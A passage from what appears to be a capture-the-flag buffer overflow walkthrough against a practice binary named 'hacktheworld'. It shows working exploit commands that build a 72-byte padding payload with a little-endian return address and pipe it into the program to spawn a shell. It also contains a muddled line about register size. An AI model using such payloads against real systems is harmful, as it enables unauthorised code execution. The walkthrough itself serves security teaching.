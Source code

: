 Remember that registers are 8 bytes long 
(2 hex characters). So in hex our return address is

```
0x0000000000400657
```

Taking little endian byte ordering into consideration, 
our input command becomes the following

```bash
python -c "print 'A'*72 + '\x57\x06\x40\x00\x00\x00\x00\x00'"
```
> Make sure you use `python` rather than `python3` 
> when creating the input since different versions 
> handle hex differently
{: .prompt-info }

### Exploiting
If we use an input file to run this, the shell will not run as intended

![bof-fail](/images/apg/apg-bof-fail.png)

A common way to solve this is to pipe the python output 
into the program. The `cat` command is also called to 
deal with `EOF` issues and keep the shell open

```bash
(python -c "print 'A'*72 + '\x57\x06\x40\x00\x00\x00\x00\x00'";cat ) | ./hacktheworld
```

When we run the binary with the input, we reach the 
function again but the shell still doesn't work correctly

Taking a look at the assembly for this function again 
can clear things up
